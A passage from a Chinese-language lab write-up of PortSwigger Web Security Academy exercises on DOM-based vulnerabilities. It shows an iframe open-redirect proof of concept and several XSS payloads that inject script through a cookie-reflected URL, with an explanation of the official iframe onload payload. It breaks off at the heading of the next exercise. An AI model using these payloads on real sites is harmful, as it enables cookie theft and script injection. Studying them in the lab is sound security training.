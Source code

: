 POC:

```html
<iframe src="https://ac181f981f5097ef80d217e900ee001c.web-security-academy.net/post?postId=4&url=https://acab1fe91f5b97b7802a176e01a9004c.web-security-academy.net/">
<!-- url指向Exploit Server -->
```

#### 5. DOM-based cookie manipulation

随便view一个details，查看源码，发现了这段代码：

```html
<a href="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=1">Last viewed product</a>
...
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

这里会将`lastViewedProduct`的值填到上面的`href`里面。

尝试闭合：

`https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(1)</script>`

成功。

这里需要先加载恶意的网站来生成cookie，之后需要重定向到主页。

构造POC：

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload='window.location.assign("https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/")'>
```

这个POC已经可以弹出cookie了，但是不知道为啥不给过。

官方给的payload是在iframe的框架下重定向的。

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/';window.x=1;">
```

这里如果直接让`onload="this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/'"`就会一直弹窗，因为每跳转一次，就会触发一次`onload`。

而官方给的payload只会触发一次：第一次触发的时候没有`window.x`，所以触发，之后将`window.x`赋值，就不为空了，也就不会再次触发跳转。

好家伙，官方的paylaod都不给过。裂开。

终于，终于，靶场重置之后，我过了。

#### 6. Exploiting [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) to enable XSS
